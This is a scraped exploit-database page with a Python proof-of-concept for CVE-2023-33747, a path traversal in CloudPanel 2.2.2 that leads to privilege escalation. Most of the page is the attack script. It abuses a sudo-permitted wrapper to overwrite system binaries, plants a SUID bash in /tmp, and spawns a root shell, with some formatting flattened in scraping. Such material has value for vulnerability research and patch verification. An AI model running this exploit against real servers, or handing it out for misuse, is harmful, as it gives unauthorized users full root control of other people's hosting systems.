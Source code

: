 ```yaml
---
title: CloudPanel 2.2.2 Privilege Escalation / Path Traversal Exploit exploit
url: https://sploitus.com/exploit?id=1337DAY-ID-38768&utm_source=rss&utm_medium=rss
source: Sploitus.com Exploits RSS Feed
date: 2023-06-08
fetch_date: 2025-10-04T11:44:29.033896
---
```


# CloudPanel 2.2.2 Privilege Escalation / Path Traversal Exploit exploit

[x]
Dark Mode

[##### SPLOITUS](/)

# CloudPanel 2.2.2 Privilege Escalation / Path Traversal Exploit CVE-2023-33747

2023-06-07 | CVSS 7.8

Copy
Download
Source
[Share](#share-url)

```
## https://sploitus.com/exploit?id=1337DAY-ID-38768
# Title : Privilege Escalation through path traversal
# CVE ID : CVE-2023-33747
# Exploit Author : EagleEye
# Github : https://github.com/EagleTube/CloudPanel/tree/main/CVE-2023-33747
# Version Affected : CloudPanel v2.0.0 - v2.2.2
# Vendor : CloudPanel.io
# Date : 31/05/2023 , 12:00 PM
# Step : Login as ssh as user, and run `python3 CVE-2023-33747_GetRoot.py`
# Date : 06 June 2023

# CVE-2023-33747_GetRoot.py
import os
import subprocess

def exec_command(command):
process = subprocess.Popen(command.split(), stdout=subprocess.PIPE)
output, error = process.communicate()

def exploit():
print('[+] Overriding file to writable')
exec_command('sudo /usr/bin/clpctlWrapper system:permissions:reset --files=777 --path=../../../../../../../../../../usr/bin/clpctlWrapper')
print('[+] Backup clpctlWrapper into tmp...')
exec_command('cp /usr/bin/clpctlWrapper /tmp/clpctlWrapper')
print('[+] Replacing clpctlWrapper with cp...')
exec_command('cp /bin/bash /tmp/bash')
print('[+] Assigning suid to /tmp/bash...')
exec_command('cp /bin/chown /usr/bin/clpctlWrapper')
exec_command('sudo /usr/bin/clpctlWrapper root:root /tmp/bash')
exec_command('cp /bin/chmod /usr/bin/clpctlWrapper')
exec_command('sudo /usr/bin/clpctlWrapper 6755 /tmp/bash')
exec_command('cp /tmp/clpctlWrapper /usr/bin/clpctlWrapper')
print('[+] Popping root shell...')
os.system('/tmp/bash -p -c "chown root:root /usr/bin/clpctlWrapper && chmod 0700 /usr/bin/clpctlWrapper && python3 root.py"')

if __name__ == '__main__':
exploit()

# root.py
import os
os.setreuid(0,0)
os.setregid(0,0)os.system('/bin/bash')
```

Share

Copy

![](https://mc.yandex.ru/watch/54912310)